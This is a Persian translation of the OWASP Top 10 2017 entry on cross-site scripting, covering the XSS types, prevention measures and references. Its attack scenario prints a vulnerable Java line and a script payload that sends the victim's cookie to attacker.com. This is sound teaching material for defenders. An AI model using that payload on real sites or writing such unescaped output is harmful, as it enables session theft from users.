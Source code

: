 # <div dir="rtl" align="right">A7:2017 Cross-Site Scripting (XSS) </div>

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl : قابلیت بهره‌برداری: ۳ | شیوع: ۳ : قابل کشف بودن: ۳ | تکنیکی: ۲ : Business ? |
| <div dir="rtl" align="right">ابزارهای خودکار می‌توانند تمام 3 شکل ممکن XSS را شناسایی و اکسپلویت کنند و چارچوب های اکسپلویت در دسترس رایگانی وجود دارد. </div> | <div dir="rtl" align="right">XSS دومین مسئله مهم درOWASP Top 10 است و در حدود دو سوم از تمام برنامه های کاربردی یافت می‌شود.ابزارهای خودکار می‌توانند برخی از مشکلاتXSS  را به صورت خودکار، به ویژه در فن آوری های بالغ مانند PHP، J2EE / JSP و ASP.NET پیدا کنند.</div> | <div dir="rtl" align="right">تأثیر XSS برای انواع بازتابی و DOM XSS متوسط است و برای XSS ذخیره شده با اجرای کد از راه دور در مرورگر قربانی شدید است مانند سرقت اعتبارها، جلسات و یا ارائه بد افزارها به قربانیان.</div> |

## <div dir="rtl" align="right">آیا برنامه کاربردی آسیب پذیر است ؟</div>

<p dir="rtl" align="right">سه شکل از XSS وجود دارد که معمولا مرورگرهای کاربران را هدف قرار می‌دهند:</p>

<ul dir="rtl" align="right">
  <li>
    <strong>XSS  منعکس شده: </strong>
     برنامه یا API شامل ورودی کاربر غیرقابل اعتبار و غیرقانونی به عنوان بخشی از خروجی HTML است. یک حمله موفقیت آمیز می‌تواند به حمله کننده اجازه دهد HTML و JavaScript دلخواهی را در مرورگر قربانی اجرا کند. به طور معمول، کاربر نیاز به ارتباط با برخی از لینک های مخرب دارد که به یک صفحه کنترل شده توسط مهاجم اشاره می‌کند، مانند وب سایت های آگهی مخرب، تبلیغات و یا مشابه این ها.
  </li>
  <li>
    <strong>XSS ذخیره شده: </strong>
    برنامه کاربردی یا API ورودی کاربر تصفیه نشده را که بعدا توسط یک کاربر یا مدیر دیگر مشاهده می‌شود، ذخیره می‌کند. XSS ذخیره شده اغلب کاربر را با خطر بالایی از ریسک روبه رو می‌کند.
  </li>
  <li>
    <strong>DOM XSS: </strong>
    چارچوب های جاوا اسکریپت، برنامه های تک صفحه وAPI هایی که به طور پویا شامل داده های قابل کنترل مهاجم به یک صفحه می‌شوند، به DOM XSS آسیب پذیر هستند. در حالت ایده آل، برنامه اطلاعات قابل کنترل مهاجم را به API های جاوا اسکریپت نا امن ارسال نمی‌کند.
  </li>
</ul>

<p dir="rtl" align="right">حملات متداول XSS عبارتند از: سرقت نشست، گرفتن حساب، دور زدن MFA، جایگزینی یا حذف گره DOM (از قبیل پنل های ورود به سیستم تروجان)، حملات علیه مرورگر کاربر مانند دریافت نرم افزارهای مخرب، کلید ورود به سیستم و سایر حملات سمت مشتری.</p>

## <div dir="rtl" align="right">نحوه پیشگیری از حمله : </div>

<p dir="rtl" align="right">پیشگیری ازپیشگیری ازXSS  نیاز به جداسازی داده های غیر قابل اعتماد از محتوای فعال مرورگر دارد. این کار با انجام موارد زیر قابل دسترسی است:</p>

<ul dir="rtl" align="right">
  <li>با استفاده از چارچوب هایی که به صورت خودکار از وقوع XSS فرار می‌کنند به وسیله طراحی، همانند آخرین Ruby on Rails، React JS. محدودیت های حفاظت XSS  هر چارچوب را بیاموزید و به طور مناسب موارد استفاده را که پوشش داده نمی‌شوند، مدیریت کنید.
  </li>
  <li>فرار داده های درخواست HTTP نامعتبر براساس متن در خروجی HTML (بدنه، ویژگی، جاوا اسکریپت، CSS، یا URL ) آسیب پذیری های XSS ذخیره شده و منعکس شده را حل خواهد کرد.  
  </li>
  <li>
    با استفاده از رمزگذاری حساس به متن هنگام تغییر سند مرورگر در سمت مشتری بر علیه DOM XSS عمل می‌کند. هنگامی‌که از انجام این کار اجتناب نکنیم، تکنیک های فرار از حساسیت متن مشابه می‌توانند به API های مرورگر اعمال شوند، همانطور که در<a href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html">OWASP Cheat Sheet 'XSS Prevention'</a> توضیح داده شده است. </li>
  <li>
    فعال کردن یک سیاست امنیتی محتوا <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP">(CSP)</a>  یک کنترل دفاع در عمق در برابر XSS  است. این مؤثر است اگر هیچ آسیب پذیری دیگری وجود نداشته باشد که اجازه می‌دهد کدهای مخرب را از طریق فایل محلی شامل شود (مثلا مسیرهای رونویسی شده یا کتابخانه های آسیب پذیر از شبکه های تحویل مجاز محتوا).
  </li>
</ul>

## <div dir="rtl" align="right">نمونه سناریو حمله</div>

<p dir="rtl" align="right"><strong>سناریو 1: </strong>برنامه بدون تایید یا escape، از داده های غیر قابل اعتماد در ساخت قطعه HTML زیر استفاده می‌کند:</p>

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
<p dir="rtl" align="right">مهاجم پارامتر CC را در مرورگر خود به صورت زیر تغییر می‌دهد :</p>

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

<p dir="rtl" align="right">این حمله باعث می‌شود شناسه نشست قربانی به وب سایت مهاجم ارسال شده و به مهاجم اجازه سرقت نشست فعلی کاربر را می‌دهد.</p>

<p dir="rtl" align="right"><strong>نکته : </strong>مهاجمان می‌توانند ازXSS برای جلوگیری از هرگونه دفاع خودکار CSRF که برنامه کاربردی به کار می‌برد، استفاده کنند.</p>

## <div dir="rtl" align="right">منابع</div>

### <div dir="rtl" align="right">OWASP</div>

* [OWASP Proactive Controls: Encode Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Proactive Controls: Validate Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Application Security Verification Standard: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Testing Guide: Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for DOM XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Java Encoder Project](https://owasp.org/www-project-java-encoder/)

### <div dir="rtl" align="right">خارجی</div>

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
